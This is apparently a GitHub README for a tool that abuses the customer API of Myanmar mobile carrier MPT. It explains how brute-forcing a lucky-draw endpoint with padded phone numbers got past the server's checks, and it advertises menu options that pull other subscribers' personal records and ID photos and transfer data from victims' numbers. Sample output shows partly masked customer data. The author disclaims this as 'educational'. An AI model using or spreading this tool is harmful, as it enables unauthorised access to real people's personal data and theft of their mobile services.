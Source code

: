 # MPT Forensic Tool

We, me and **a guy who living in Mogok**, triggered the main bug which could leads to made unlimited lucky draw existed on the
MPT server(mcare.mpt.com.mm). I just thought it was a bug while parsing the value of data type conversion occured when we try to put the user's MSISDN (phone number).

In line number 408, post a URL Parameter as the target phone number which to get a lucky draw like this.
https://mcare.mpt.com.mm/api/services/luckdraw/v1/play/{targetph}

The backend parsed the parameter(targetph=String) like just extract the DIGITS from the parameter and get a random luckydraw process.
But they didnt noticed a situation occured when someone put some random characters in front of the phone number or behind the number.
So we started put some random characters and made requests again and again. Yes its bruteforcing.

_mcare.mpt.com.mm/api/services/luckdraw/v1/play/95942xx00332_ -> can get a luckdraw after purchasing some package or adding some credit to the number.
_mcare.mpt.com.mm/api/services/luckdraw/v1/play/we_put_series_of_char_here_95942xx00332_ -> its passed and start proceeding the luckydraw process as usual.

the bug was patched on September 24, 2019. May be due to thousand of luckydraw bruteforce requests we had made.

But at least we could get all of user information like user id, name, etc.. from the place we got in.
And you can get data package from victim number just pressing Enter button. BUT the victim number CAN BE NOTICED by a sms that would include your phone number u put as Target Number.
I just uploaded it just for educational purposes and I dont want to be in any trouble. so get ur own way.

#### **How to run?**

```shell script
$ python3.7 MPT_Forensic_Tool.py

================================
MPT Forensic Tool
TwizzyIndy 9/2019
================================

1 . Get Bill Info
2 . Get Account Balance List
3 . Get Data Usage on-a-day
4 . Get User Info
5 . Get User ID Photos
6 . Balance Tranfer ( in process )
7 . Data Transfer
8 . Luckydraw Bruteforce (Patched on September 24, 2019)

Enter a number u wish to continue .. : 4
enter phone number : 942xxxx344
{'custId': 0, 'custType': 'Individual Customer', 'custName': 'xxx', 'firstName': None, 'lastName': None, 'salutation': None, 'gender': None, 'birthday': None, 'email': None, 'address': None, 'contactAddr': None, 'contactTel': None, 'city': None, 'custCategory': '', 'hobbies': '', 'maritalStatus': '', 'occupation': None, 'userName': '', 'nickName': '', 'subsPlanName': None, 'certType': '1', 'certNbr': '12/xxxx(n)xxxxxx', 'certTypeName': None, 'custCode': '14998xxx', 'impGradeName': None, 'creditLimit': None, 'fatherName': None, 'nationType': 'Myanmar', 'visaNo': None, 'visaExpireDate': None, 'visaIssueDate': None, 'race': None, 'state': None, 'township': None, 'socialMedia': None, 'secondContactTel': None, 'secondContactEmail': None}


```

put the number and start it. any phone number must be started with 9xxxxxx. **DONT ADD '0'/Zero**.

#### **How can I get the APIs we used?**

I'm not familiar with POSTMAN or any other REST API Clients(but I know what is Fiddler4).
I added MPT_API.paw which could be open on the mac with PAW Client. I would post more APIs here.
AGAIN, Dont put me in trouble.

#### **What would I learn from this repo?**
Using MPT number is not secure in Myanmar. Check this old script which just included invalid HTTP Headers,
expired Tokens, unused SessionID are still works in these days without any validation. You can get the
other people's information with ur own generated access token or session id.